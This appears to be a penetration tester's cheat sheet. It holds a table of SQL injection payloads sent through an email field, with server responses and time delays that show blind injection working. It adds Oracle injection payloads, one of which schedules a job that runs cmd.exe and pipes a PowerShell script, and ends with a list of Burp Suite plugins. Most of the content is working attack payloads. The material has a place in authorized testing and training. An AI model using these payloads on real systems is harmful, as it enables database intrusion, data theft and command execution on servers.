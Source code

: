 | Payload | Response |Injection Status |
| ------ | ------ |------ |
|{“email”:”asd@a.com”}| {“code”:2002,”status”:200,”message”:”Email not found.”}|	Valid|
|{“email”:”asd a@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”\”asd a\”@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”asd(a)@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|	
|{“email”:”\”asd(a)\”@a.com”}|	{“code”:2002,”status”:200,”message”:”Email not found.”}|	Valid|	
|{“email”:”asd’a@a.com”}|	{“code”:0,”status”:500,”message”:”Unspecified error”}|	Not Valid|	
|{“email”:”asd’or’1’=’1@a.com”}|	{“code”:2002,”status”:200,”message”:”Email not found.”}	Valid|	
|{“email”:”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1@a.com”}|	{“code”:2002,”status”:200,”message”:”Bad format”}|	Not Valid|
|{“email”:”\”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	Delay: 7,854 milis|
|{“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	Delay: 8,696 milis|
|{“email”:”\”a’-IF(LENGTH(database())=11,SLEEP(7),0)or’1’=’1\”@a.com”}|	{“code”:0,”status”:200,”message”:”Successful”}|	Valid	No delay|

### Oracle
```
1) UNION SELECT CASE WHEN (SELECT ASCII(SUBSTR((SELECT user FROM dual), 1, 1 )) FROM dual) >71 THEN (dbms_pipe.receive_message(('a'),10)) ELSE NULL END FROM dual --
1' AND 1=2 UNION SELECT SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''exec4'',''EXECUTABLE'',''c:\\WINDOWS\\system32\\cmd.exe /c type C:\\users\\public\\shell.ps1 | PowerShell.exe -noprofile - '',0,TRUE);DBMS_SCHEDULER.create_job(job_name=>''myjob11'',program_name=>''exec4'',start_date=>NULL,repeat_interval=>NULL,end_date=>NULL,enabled=>TRUE,auto_drop=>TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=>''exec4'');dbms_scheduler.purge_log;'), null  FROM DUAL --
1' AND 1=1 UNION SELECT null, user FROM DUAL --
```


### Cool BurpPlugins
```
Autorize – To test BACs (Broken Access Control)
Burp Bounty – Profile-based scanner
Active Scan++ – Add more power to Burp’s Active Scanner
AuthMatrix – Authorization/PrivEsc checks
Broken Link Hijacking – For BLH (Broken Link Hijacking)
Collaborator Everywhere – Pingback/SSRF (Server-Side Request Forgery)
Command Injection Attacker
Content-Type Converter – Trying to bypass certain restrictions by changing Content-Type
Decoder Improved – More decoder features
Freddy – Deserialization
Flow – Better HTTP history
Hackvertor – Handy type conversion
HTTP Request Smuggler
Hunt – Potential vuln identifier
InQL – GraphQL Introspection testing
J2EE Scan – Scanning J2EE apps
JSON/JS Beautifier
JSON Web Token Attacker
ParamMiner – Mine hidden parameters
Reflected File Download Checker
Reflected Parameter – Potential reflection
SAML Raider – SAML testing
Upload Scanner – File upload tester
Web Cache Deception Scanner
```